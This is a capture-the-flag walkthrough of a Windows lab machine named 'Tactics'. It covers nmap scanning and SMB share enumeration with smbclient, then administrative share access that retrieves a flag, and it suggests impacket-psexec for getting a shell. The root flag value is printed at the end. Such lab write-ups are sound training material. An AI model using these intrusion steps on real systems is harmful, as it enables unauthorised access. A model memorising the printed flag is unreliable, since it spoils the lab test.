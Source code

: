 # MACHINE - TACTICS

IP: 10.129.243.129

Type: Windows

---

## OPEN PORTS

```
$ nmap -sVC -T4 -Pn -p- {IP}
```

- [1] 135/tcp msrpc **Microsoft Windows RPC**
- [2] 139/tcp netbios-ssn **Microsoft Windows netbios-ssn**
- [3] 445/tcp microsoft-ds?

> *Microsoft-DS* is the name given to port 445 which is used by SMB (Server Message Block).
> SMB is a network protocol used mainly in Windows networks for sharing resources (e.g.
> files or printers) over a network. It can also be used to remotely execute commands. SMB
> ports are generally 139 and 445. Port 139 is used by SMB dialects that  communicate
> over NetBIOS. It's a session layer protocol desiged to use in Windows operating systems over
> a local network. Port 445 is used to communicate outside the LAN. 

> *netbios-ssn*. The session service facilitates the connection-oriented communication
> between devices in LAN. When two devices need to exchange data, they established a 
> session using the session service. Hence, it provides services releated to the session
> layer of the OSI model allowing applications on separate computers to communicate over LAN.

> *Remote Procedure Call* service supports communication between Windows applications. Specifically,
> the service implement the RPC protocol - a low-level form of inter-process communication where
> a client process can make requests of a server process. 

---

## ENUMERATING SHARINGS

- SMB service is compose of *sharings* inside a *Workgroup*
- Some of these sharings are administrative accessible
- Some others can be accessed by everyone
- We can try to enumerate those sharings using the following command

```
$ smbclient -N -L //{IP}
```

- `-N` = No password required, `-L` = list all sharings
- However, we obtain a `NT_STATUS_ACCESS_DENIED`
- We can try to also give the administrator username, let's say 'Administrator'

```
$ smbclient -U Administrator -L //{IP}
```

- We obtain the following response

```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

- As we can see there two interesting shares (do not consider `IPC$`)
- Let's see if we can obtain a session on one of them

```
$ smbclient -U Administrator \\\\{IP}\\ADMIN$
smb: \> ls
...
```

- There is nothing special, let's try with the other one (maybe `C` is the name of the disk)

```
$ smbclient -U Administrator \\\\{IP}\\C$
smb: \> ls

  $Recycle.Bin                      DHS        0  Wed Apr 21 17:23:49 2021
  Config.Msi                        DHS        0  Wed Jul  7 20:04:56 2021
  Documents and Settings          DHSrn        0  Wed Apr 21 17:17:12 2021
  pagefile.sys                      AHS 738197504  Wed Apr 24 17:33:24 2024
  PerfLogs                            D        0  Sat Sep 15 09:19:00 2018
  Program Files                      DR        0  Wed Jul  7 20:04:24 2021
  Program Files (x86)                 D        0  Wed Jul  7 20:03:38 2021
  ProgramData                        DH        0  Tue Sep 13 18:27:53 2022
  Recovery                         DHSn        0  Wed Apr 21 17:17:15 2021
  System Volume Information         DHS        0  Wed Apr 21 17:34:04 2021
  Users                              DR        0  Wed Apr 21 17:23:18 2021
  Windows                             D        0  Wed Jul  7 20:05:23 2021

smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop> ls

 .                                  DR        0  Thu Apr 22 09:16:03 2021
  ..                                 DR        0  Thu Apr 22 09:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 17:23:32 2021
  flag.txt                            A       32  Fri Apr 23 11:39:00 2021

smb: \Users\Administrator\Desktop> get flag.txt
smb: \Users\Administrator\Desktop> exit
$ cat flag.txt
```

- We have found the flag
- Notice that we could also have used an alternative to get a shell on the system
- using `psexec` from the Impacket framework

```
$ sudo impacket-psexec Administrator@{IP}
```

---

## FLAGS

ROOT: f751c19eda8f61ce81827e6930a1f40c